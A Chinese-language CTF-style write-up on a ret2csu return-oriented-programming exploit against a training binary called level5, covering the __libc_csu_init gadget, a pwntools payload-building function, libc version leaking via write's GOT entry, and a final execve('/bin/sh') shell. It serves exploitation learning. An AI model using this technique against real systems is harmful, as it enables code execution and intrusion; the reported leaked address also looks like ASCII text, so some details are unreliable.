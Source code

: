 * 简介
选择中级 ROP 里的 ret2csu 。

* 思路
主要利用的是 libc 里的 libc_csu_init 函数，这个函数是用来初始化 libc 的，并且方便反弹 shell 的 system 和 execve 等函数都在 libc 里，且大部分应用程序都会调用 libc 里的函数。

所以最基本的思路就是通过 target 里调用的 libc 函数来定位到 libc 里其他函数的地址，比如 execve ，之后再构造需要反弹的 shell 之类的参数，通过栈移出到 ret_addr 那里来执行。

* 设计

** __libc_csu_init 函数的利用
查阅资料得知，该函数有一段代码可以设置 x86_64 中三个用于传递参数的寄存器 rsi rdx 和  rdi ，在 level5 这个 elf 文件中，该代码片段如下：
#+BEGIN_SRC
0x00400600      4c89ea         mov rdx, r13      ; 将r13的值（原来的arg3）复制到rdx
0x00400603      4c89f6         mov rsi, r14      ; 将r14的值（原来的arg2）复制到rsi
0x00400606      4489ff         mov edi, r15d     ; 将r15d的值（原来的arg1）复制到edi
0x00400609      41ff14dc       call qword [r12 + rbx*8] ; 通过[r12 + rbx*8]计算得到的地址调用函数，rbx是索引，每次迭代增加8
0x0040060d      4883c301       add rbx, 1        ; 将rbx加1，指向下一个函数指针
0x00400611      4839eb         cmp rbx, rbp      ; 比较rbx和rbp，检查是否已经遍历了整个数组
0x00400614      75ea           jne 0x400600      ; 如果rbx < rbp，意味着还没调用完所有函数，跳回0x400600继续循环
#+END_SRC

** payload 构造基本思路

查看 vulnerable 函数如下，其中缓冲区大小为128，但是 read 的参数为0x200, 是512，明显比分配的缓冲区要大，所以通过向这个 read 函数输入构造的 payload 来实现攻击。

#+BEGIN_IMAGE
[[file:writeup/20231104_133920.png]]
#+END_IMAGE

通过查看汇编代码，发现缓冲区地址为 ~rbp-0x80~ 。

#+BEGIN_IMAGE
[[file:writeup/20231104_135704.png]]
#+END_IMAGE

因此 payload 的构造需要先填充这128和 rdp 的位置 ~p64(0x00*136)~ 。

之后，查看 __libc_csu_init 中可以利用的 gadget 为 0x0040061a ，于是 payload 的下一步为 ~p64(0x0040061a)~

#+BEGIN_IMAGE
[[file:writeup/20231104_152237.png]]
#+END_IMAGE

之后就是填充栈的地址，完成 rbx rbp ret 关键数据的填充。

再之后就是需要 ret 的地址，开始执行代码，这里是 ret 到 ~call qword [r12 + rbx*8]~ 这一行进行 call 操作。

call 操作完成后，ret 会返回到原来的指令，如下：

#+BEGIN_IMAGE
[[file:writeup/20231104_161424.png]]
#+END_IMAGE

算上 ret 共弹出了 7*8 个字节，所以需要一个 56 字节的填充数据。

最后返回 main 函数方便下一步操作。

所以一个 libc_csu_init 的利用函数如下 (GPT 辅助生成的):

#+BEGIN_SRC python
  def craft_ret2csu_payload(buf_size, csu_gadget_addr, func_gadget_addr, func_to_call, rdi, rsi, rdx, rbx=0, rbp=0, r12=0, r13=0, r14=0, r15=0, extra_padding=b'', next_func_addr=None):
      """
      Craft a ret2csu payload to control the registers and call a function.

      :param buf_size: The size of the buffer before the return address.
      :param csu_gadget_addr: The address of the csu gadget.
      :param func_gadget_addr: The address of the function call gadget.
      :param func_to_call: The function to call, usually GOT entry of a function.
      :param rdi: The value to set in RDI before the function call.
      :param rsi: The value to set in RSI before the function call.
      :param rdx: The value to set in RDX before the function call.
      :param rbx: The value to set in RBX, if needed for the csu gadget.
      :param rbp: The value to set in RBP, if needed for the csu gadget.
      :param r12: The value to set in R12, which should be the function to call minus the offset.
      :param r13: The value to set in R13 (RDI).
      :param r14: The value to set in R14 (RSI).
      :param r15: The value to set in R15 (RDX).
      :param extra_padding: Any extra padding if needed after the csu gadgets.
      :param next_func_addr: The address to return to after the function call (e.g., main).
      :return: The constructed payload.
      """
      from pwn import p64

      # Create padding to reach the return address
      payload = b"A" * buf_size

      # Add the csu_gadget_addr
      payload += p64(csu_gadget_addr)

      # Setup values for the CSU gadget
      # It's important to note that the actual registers are not yet set. This is simply putting values on the stack
      # that will be popped into registers by the CSU gadget.
      payload += p64(rbx)
      payload += p64(rbp)
      payload += p64(r12) # This will be the location to call, plus the appropriate offset
      payload += p64(r13) # Becomes RDI
      payload += p64(r14) # Becomes RSI
      payload += p64(r15) # Becomes RDX

      # Add the func_gadget_addr which will call the function [r12+rbx*8]
      payload += p64(func_gadget_addr)

      # Add extra padding if necessary to align the stack correctly
      payload += extra_padding

      # Finally, add the address of the function to call if necessary
      if next_func_addr:
          payload += p64(next_func_addr)

      return payload

#+END_SRC

询问 GPT 得到以下的栈布局结构：

#+BEGIN_IMAGE
[[file:writeup/20231104_132341.png]]
#+END_IMAGE

** 获取 libc.so 的版本
获取 libc 版本前需要先分清楚一个函数的真实地址和其在 libc.so 中的地址的区别。

+ libc.so 中的地址：就是函数在 libc.so 中的地址，这个地址是不变的。
+ 真实地址：程序执行时，函数在内存中的地址，程序基址+偏移量。

由此，通过程序执行时 csu 的利用，可以获得一个函数在 libc.so 中的地址，由此确定 libc.so 的版本号和在程序中的地址，进一步确定目标函数 (如execve, system) 等函数的具体地址。

通过反编译 level5 这个程序可以看出，它使用了 write 和 read 两个函数。

#+BEGIN_IMAGE
[[file:writeup/20231103_153707.png]]
#+END_IMAGE

#+BEGIN_IMAGE
[[file:writeup/20231103_153742.png]]
#+END_IMAGE

于是可以通过这两个函数的地址来确定 libc 的版本等信息。


* 流程

基本流程如下：

1. 第一次利用 csu ，获取 write 相对 GTO 的地址偏移量，确定 libc 的版本，从而获取 execve 的地址偏移量。
2. 第二次利用 csu ，把 execve 地址和 "/bin/sh"  写入 .bss 段。
3. 最后一次利用 csu ，执行 execve 反弹 shell ，完成 ROP 利用。

** 获取 libc 版本
需要执行的目标函数 :write ，输出 write 在内存中的地址偏移量，并以此找到 libc 的版本。

因此各个寄存器数据填充为：
*这里一定要注意 r13 是第三个参数，r15 才是第一个参数*
1. rbx = 0 ; 为了计算 call qword [r12 + rbx*8] ，这里置为0
2. rbp = 1 ; 和 rbx 不一样，让下面的 jne 不跳转。
3. r12 = write.got ; call 指令所调用的地址，这里要把内存地址给 write 到标准输出，所以这个需要是 write.got
4. r15 = 1 ; write 的第一个参数，1 为标准输出
5. r14 = write.got ; write 函数的 GOT 地址
6. r13 = 8 ; wirte 函数的第三个参数，输出 8 个字节。
7. ret = main ; main 函数地址，返回到 main 继续执行，方便之后利用

构造完毕 payload 并进行利用之后得到 write 的 GOT 地址为 6278066737626506568，十六进制为 0x57202c6f6c6c6400.

在 [[https://libc.blukat.me/?q=write%3A400][libc database search]] 这个网站上搜索可以得到对应的 libc 版本，这里直接使用有心人封装好的 LibcSearcher 。

注意，我找到的教程都是只用了 write 的地址，这导致 LibcSearcher 要从10个里面选一个，很不人性化，我用了 write 和 read 就只需要四选一了，并且前两个都行，后面两个没试过但是估计也行，要是使用 __libc_start_main 估计范围更小。

** 获取 /bin/sh 等参数字符串

找到了 execve 的地址，还需要获取 '/bin/sh' 这个字符串来获取 shell ，但是程序里没有这个字符串，需要手动写入，一般写入到 .bss 段内比较合适.

再次利用一次 csu ，调用 read(0, bss_addr, 16) 函数从标准输入读取相应的字符串到 bss 内即可。

这里使用 sh.send() 来向程序发送这16个所需的字节。

** 获取 shell

再执行一次 csu 利用函数，调用之前写入 bss 段的 execve 和 bss+8 处的 /bin/sh ，获取 shell 。

* tip

不能把静态调试的指令地址和实际执行的数据地址弄混，栈之类的数据都是运行时在内存里随机分配的，没法直接操作，并且向 r12 rbx 这种寄存器也是通过溢出所操作不了的，而 __libc_csu_init 能利用的原因就是因为上文提到的 gadget ，他从栈里弹数据写道寄存器里，这就给了我们操作的空间。

ret 指令：在 x64 机器中，弹出8个字节的数据，并作为地址返回开始执行上面的指令许列，这里的重点也是从栈上弹出地址，操作栈就可以劫持控制流。

* 工具
- radare2


* Github
[[https://github.com/Yatogaii/ad_ret2csu][ad_ret2csu]]
